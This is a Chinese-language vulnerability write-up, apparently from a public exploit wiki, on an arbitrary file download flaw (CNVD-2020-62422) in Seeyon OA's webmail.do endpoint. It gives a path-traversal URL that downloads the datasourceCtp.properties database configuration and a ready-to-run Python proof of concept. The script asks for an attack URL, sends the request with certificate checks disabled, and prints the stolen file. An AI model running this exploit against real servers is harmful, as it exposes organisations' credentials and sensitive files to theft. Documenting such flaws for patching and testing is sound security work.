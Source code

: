 # 致远OA webmail.do任意文件下载 CNVD-2020-62422

## 漏洞描述

致远OA存在任意文件下载漏洞，攻击者可利用该漏洞下载任意文件，获取敏感信息

## 漏洞影响

> [!NOTE]
>
> 致远OA A6-V5
>
> 致远OA A8-V5
>
> 致远OA G6

## 漏洞复现

访问 url  http://xxx.xxx.xxx.xxx/seeyon/webmail.do?method=doDownloadAtt&filename=PeiQi.txt&filePath=../conf/datasourceCtp.properties

存在漏洞的OA 系统将会下载 **datasourceCtp.properties** 配置文件

![](http://wikioss.peiqi.tech/vuln/zhiyuan-11.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

更改参数 filePath 可下载其他文件

##  漏洞利用POC

```python
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                          \033[0m')
    print('+  \033[34mVersion: 致远OA多个版本				                                \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/seeyon/webmail.do?method=doDownloadAtt&filename=PeiQi.txt&filePath=../conf/datasourceCtp.properties"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "workflow" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 文件请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/zhiyuan-12.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> 致远OA webmail.do任意文件下载 CNVD-2020-62422

![](http://wikioss.peiqi.tech/vuln/zhiyuan-13.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)